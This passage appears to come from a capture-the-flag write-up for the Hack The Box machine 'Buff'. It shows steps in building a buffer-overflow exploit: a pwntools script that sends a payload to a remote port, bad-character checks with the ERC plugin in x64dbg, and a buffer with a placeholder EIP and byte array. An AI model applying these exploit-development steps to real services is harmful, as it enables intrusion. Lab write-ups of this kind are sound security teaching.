 ```python
    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit() 
    
```

before sending the bytearray I reload the program in the debugger and generate a bytearray with ERC to compare the characters.

To create a bytearray with ERC

1. go to the log tab in xdbg

![Desktop View](/assets/img/htb/buff/log_tab.png)

2. on the command prompt at the bottom type `ERC --config setworkingdirectory C:\users\user\desktop\`

![Desktop View](/assets/img/htb/buff/command_prompt_1.png)

3. on the command prompt at the bottom type `ERC --bytearray` this will generate two bytearray files in the working directory

![Desktop View](/assets/img/htb/buff/files_1.png)

After doing this I'll send the bytearray to the program and will check the characters, the bytearray will be stored in ESP.
To check for the array I can click on "Follow in Dump" to see the bytearray in the registers or in this case copy the value which is the address of ESP and compare it with the bytearray

![Desktop View](/assets/img/htb/buff/esp_1.png)

* in the log tab on the command prompt at the bottom I type `ERC --compare 0x00A3AA30 C:\users\user\desktop\bytearray_1.bin`  0x00A3AA30 is the address of ESP that I copied before in "Copy Value" and the bytearray is the one generated before. 

* The result is that there are no bad chars, but just to be sure I'll remove the common bad chars such as `\x00\x0a\x0d\xff`

![Desktop View](/assets/img/htb/buff/no_bad_chars.png)

new bytearray
```python

from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe")
```